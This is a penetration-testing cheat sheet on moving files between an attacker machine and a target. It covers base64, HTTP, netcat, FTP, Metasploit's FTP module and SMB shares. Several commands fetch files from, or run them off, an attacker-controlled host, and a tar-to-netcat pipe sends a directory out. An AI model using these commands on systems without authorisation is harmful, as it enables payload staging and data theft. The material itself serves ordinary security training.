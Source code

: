 # File Transfer

File can either be transferred by:

* Push file to target
* Have the target to pull file back

## Base 64 \(Small file\)

```text
base64 [file]
```

Echo the base 64 string to a file on your local machine

```text
echo [string] > [string_file]
```

Decode the base 64 file on your local machine back to the file

```text
base64 -d [string_file] > [file]
```

## HTTP

**On attacker machine**:

### Apache

copy file to `/var/www/html/`

Start Apache Server

```text
/etc/init.d/apache2 start
```

### Python

By running below, current directory will be accessible over HTTP

```text
python -m SimpleHTTPServer [port no]
```

**On target machine**:

```text
http://your_ip_address:your_port_num/filename
```

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[ip_address]/[file]','[file dest]')"
```

or use cmd.exe to trigger IE

```text
cd Program Files\Internet Explorer start iexplore.exe "http://ip_address/file"
```

## Netcat

### Receiving end

```text
nc -l -p 1234 > out.file
```

### Sending end

```text
nc -w 3 [destination] 1234 < out.file
```

For faster transfers if both sender and receiver has some basic \*nix tools installed, you can compress the file during sending process,

### Receiving end

```text
nc -l -p 1234 | uncompress -c | tar xvfp -
```

### Sending end

```text
tar cfp - /some/dir | compress -c | nc -w 3 [destination] 1234
```

## FTP

### vsftpd/pytftpd

**On attacker machine**:

`vsftpd` or simply the `pytftpd` library

```text
apt-get install python-pyftpdlib
python -m pyftpdlib -p [port_num]
```

default port is 2121

`-w` can grant the user write access

### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

```text
use auxiliary/server/ftp
set FTPROOT /root/shells
exploit
```

Can be kill with:

```text
jobs -k [id]
```

**On target machine**:

Type it into your cmd.exe

```text
echo open your_ip_address > ftp_commands.txt  
echo your_username >> ftp_commands.txt  
echo your_password >> ftp_commands.txt  
echo binary >> ftp_commands.txt  
echo get your_file >> ftp_commands.txt  
echo bye >> ftp_commands.txt  
ftp -s:ftp_commands.txt
```

## SMB

**On attacker machine**:

```text
smbserver.py shareName sharePath
```

`(e.g. smbserver.py TMP /tmp)`

Check with smbclient to confirm we have got an SMB share up and running

```text
smbclient -L [attack machine ip address] --no-pass
```

**On target machine**:

```text
net view \\\\[attack machine ip address]
```

Copy file `copy \\[attack machine ip address]\Sharepath .`

Or execute the file directly from SMB `\\[attack machine ip address]\file.exe`

### Windows to Windows

Create a new local file share:

`NET SHARE work=C:\docs\work /REMARK:"work share" /CACHE:No`

Delete the share:

`NET SHARE work /DELETE`

List the File/Printer shares on a remote computer:

`NET VIEW \\ComputerName`

List all the shares in the domain:

`NET VIEW /DOMAIN`

Join a file share \(Drive MAP\):

`NET USE [driveletter:] \\ComputerName\ShareName`

\(replace \[driveletter:\] with the drive letter you want to assign\).

### Linux to Windows

Backup and modify `/etc/samba/smb.conf`

Add the following configuration

```text
[sharedname]
path = [path to share]
available  = yes
valid users = [current user]
read only = no
browsable = yes
public = yes
writable = yes
```

Add user and password `smbpasswd -a [current user]`

List user `pdbedit -L`

Restart SMB service `service smb restart`

or

`sudo /etc/init.d/samba restart`

Access the IP address of the computer from Windows

